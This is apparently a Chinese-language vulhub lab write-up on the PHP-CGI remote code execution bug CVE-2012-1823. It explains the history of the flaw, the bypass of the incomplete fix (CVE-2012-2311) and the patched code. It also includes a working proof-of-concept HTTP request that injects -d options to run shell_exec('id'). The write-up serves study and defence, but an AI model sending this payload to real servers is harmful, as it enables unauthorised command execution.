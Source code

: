 # PHP-CGI远程代码执行漏洞（CVE-2012-1823）

###### by ADummy

### 0x00利用路线

​			Burpsuite抓包改包--->代码执行

### 0x01漏洞介绍			

​			首先，介绍一下PHP的运行模式。

下载PHP源码，可以看到其中有个目录叫sapi。sapi在PHP中的作用，类似于一个消息的“传递者”，比如我在《[Fastcgi协议分析 && PHP-FPM未授权访问漏洞 && Exp编写](https://www.leavesongs.com/PENETRATION/fastcgi-and-php-fpm.html)》一文中介绍的fpm，他的作用就是接受Web容器通过fastcgi协议封装好的数据，并交给PHP解释器执行。

除了fpm，最常见的sapi应该是用于Apache的mod_php，这个sapi用于php和apache之间的数据交换。

php-cgi也是一个sapi。在远古的时候，web应用的运行方式很简单，web容器接收到http数据包后，拿到用户请求的文件（cgi脚本），并fork出一个子进程（解释器）去执行这个文件，然后拿到执行结果，直接返回给用户，同时这个解释器子进程也就结束了。基于bash、perl等语言的web应用多半都是以这种方式来执行，这种执行方式一般就被称为cgi，在安装Apache的时候默认有一个cgi-bin目录，最早就是放置这些cgi脚本用的。

但cgi模式有个致命的缺点，众所周知，进程的创建和调度都是有一定消耗的，而且进程的数量也不是无限的。所以，基于cgi模式运行的网站通常不能同时接受大量请求，否则每个请求生成一个子进程，就有可能把服务器挤爆。于是后来就有了fastcgi，fastcgi进程可以将自己一直运行在后台，并通过fastcgi协议接受数据包，执行后返回结果，但自身并不退出。

php有一个叫php-cgi的sapi，php-cgi有两个功能，一是提供cgi方式的交互，二是提供fastcgi方式的交互。也就说，我们可以像perl一样，让web容器直接fork一个php-cgi进程执行某脚本；也可以在后台运行`php-cgi -b 127.0.0.1:9000`（php-cgi作为fastcgi的管理器），并让web容器用fastcgi协议和9000交互。

那我之前说的fpm又是什么呢？为什么php有两个fastcgi管理器？php确实有两个fastcgi管理器，php-cgi可以以fastcgi模式运行，fpm也是以fastcgi模式运行。但fpm是php在5.3版本以后引入的，是一个更高效的fastcgi管理器，其诸多优点我就不多说了，可以自己去翻翻源码。因为fpm优点更多，所以现在越来越多的web应用使用php-fpm去运行php。

### 历史成因

回到本漏洞。CVE-2012-1823就是php-cgi这个sapi出现的漏洞，我上面介绍了php-cgi提供的两种运行方式：cgi和fastcgi，本漏洞只出现在以cgi模式运行的php中。

这个漏洞简单来说，就是用户请求的querystring被作为了php-cgi的参数，最终导致了一系列结果。

探究一下原理，[RFC3875](http://www.ietf.org/rfc/rfc3875)中规定，当querystring中不包含没有解码的`=`号的情况下，要将querystring作为cgi的参数传入。所以，Apache服务器按要求实现了这个功能。

但PHP并没有注意到RFC的这一个规则，也许是曾经注意并处理了，处理方法就是web上下文中不允许传入参数。但在2004年的时候某个开发者发表过这么一段言论：

```
From: Rasmus Lerdorf <rasmus <at> lerdorf.com>
Subject: [PHP-DEV] php-cgi command line switch memory check
Newsgroups: gmane.comp.php.devel
Date: 2004-02-04 23:26:41 GMT (7 years, 49 weeks, 3 days, 20 hours and 39 minutes ago)

In our SAPI cgi we have a check along these lines:

    if (getenv("SERVER_SOFTWARE")
        || getenv("SERVER_NAME")
        || getenv("GATEWAY_INTERFACE")
        || getenv("REQUEST_METHOD")) {
        cgi = 1;
    }

    if(!cgi) getopt(...)

As in, we do not parse command line args for the cgi binary if we are 
running in a web context.  At the same time our regression testing system 
tries to use the cgi binary and it sets these variables in order to 
properly test GET/POST requests.  From the regression testing system we 
use -d extensively to override ini settings to make sure our test 
environment is sane.  Of course these two ideas conflict, so currently our 
regression testing is somewhat broken.  We haven't noticed because we 
don't have many tests that have GET/POST data and we rarely build the cgi 
binary.

The point of the question here is if anybody remembers why we decided not 
to parse command line args for the cgi version?  I could easily see it 
being useful to be able to write a cgi script like:

  #!/usr/local/bin/php-cgi -d include_path=/path
  <?php
      ...
  ?>

and have it work both from the command line and from a web context.

As far as I can tell this wouldn't conflict with anything, but somebody at 
some point must have had a reason for disallowing this.

-Rasmus
```

显然，这位开发者是为了方便使用类似`#!/usr/local/bin/php-cgi -d include_path=/path`的写法来进行测试，认为不应该限制php-cgi接受命令行参数，而且这个功能不和其他代码有任何冲突。

于是，`if(!cgi) getopt(...)`被删掉了。

但显然，根据RFC中对于command line的说明，命令行参数不光可以通过`#!/usr/local/bin/php-cgi -d include_path=/path`的方式传入php-cgi，更可以通过querystring的方式传入。

这就是本漏洞的历史成因。

### 漏洞利用

那么，可控命令行参数，能做些什么事。

通过阅读源码，我发现cgi模式下有如下一些参数可用：

- `-c` 指定php.ini文件的位置
- `-n` 不要加载php.ini文件
- `-d` 指定配置项
- `-b` 启动fastcgi进程
- `-s` 显示文件源码
- `-T` 执行指定次该文件
- `-h`和`-?` 显示帮助

### CVE-2012-2311

这个漏洞被爆出来以后，PHP官方对其进行了修补，发布了新版本5.4.2及5.3.12，但这个修复是不完全的，可以被绕过，进而衍生出CVE-2012-2311漏洞。

PHP的修复方法是对`-`进行了检查：

```c
if(query_string = getenv("QUERY_STRING")) {
    decoded_query_string = strdup(query_string);
    php_url_decode(decoded_query_string, strlen(decoded_query_string));
    if(*decoded_query_string == '-' && strchr(decoded_query_string, '=') == NULL) {
        skip_getopt = 1;
    }
    free(decoded_query_string);
}
```

可见，获取querystring后进行解码，如果第一个字符是`-`则设置skip_getopt，也就是不要获取命令行参数。

这个修复方法不安全的地方在于，如果运维对php-cgi进行了一层封装的情况下：

```
#!/bin/sh

exec /usr/local/bin/php-cgi $*
```

通过使用空白符加`-`的方式，也能传入参数。这时候querystring的第一个字符就是空白符而不是`-`了，绕过了上述检查。

于是，php5.4.3和php5.3.13中继续进行修改:

```c
if((query_string = getenv("QUERY_STRING")) != NULL && strchr(query_string, '=') == NULL) {
    /* we've got query string that has no = - apache CGI will pass it to command line */
    unsigned char *p;
    decoded_query_string = strdup(query_string);
    php_url_decode(decoded_query_string, strlen(decoded_query_string));
    for (p = decoded_query_string; *p &&  *p <= ' '; p++) {
        /* skip all leading spaces */
    }
    if(*p == '-') {
        skip_getopt = 1;
    }
    free(decoded_query_string);
}
```

先跳过所有空白符（小于等于空格的所有字符），再判断第一个字符是否是`-`。

### 0x02漏洞复现

访问主页

![PHP_CGI远程代码执行漏洞_1](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/PHP_CGI远程代码执行漏洞_1.jpg)



poc

```
POST /index.php?-d+allow_url_include%3don+-d+auto_prepend_file%3dphp%3a//input HTTP/1.1
Host: example.com
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 31

<?php echo shell_exec("id"); ?>
```

![PHP_CGI远程代码执行漏洞_2](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/PHP_CGI远程代码执行漏洞_2.jpg)





**原理分析**
　　PHP是一门强大的语言，PHP.INI中有两个有趣的配置项，auto_prepend_file和auto_append_file。auto_prepend_file是告诉PHP，在执行目标文件之前，先包含auto_prepend_file中指定的文件；auto_append_file是告诉PHP，在执行完成目标文件后，包含auto_append_file指向的文件。
　　那么就有趣了，假设我们设置auto_prepend_file为php://input，那么就等于在执行任何php文件前都要包含一遍POST的内容。所以，我们只需要把待执行的代码放在Body中，他们就能被执行了。（当然，还需要开启远程文件包含选项allow_url_include）

　　那么，我们怎么设置auto_prepend_file的值？
　　这又涉及到PHP-FPM的两个环境变量，PHP_VALUE和PHP_ADMIN_VALUE。这两个环境变量就是用来设置PHP配置项的，PHP_VALUE可以设置模式为PHP_INI_USER和PHP_INI_ALL的选项，PHP_ADMIN_VALUE可以设置所有选项。（disable_functions除外，这个选项是PHP加载的时候就确定了，在范围内的函数直接不会被加载到PHP上下文中）


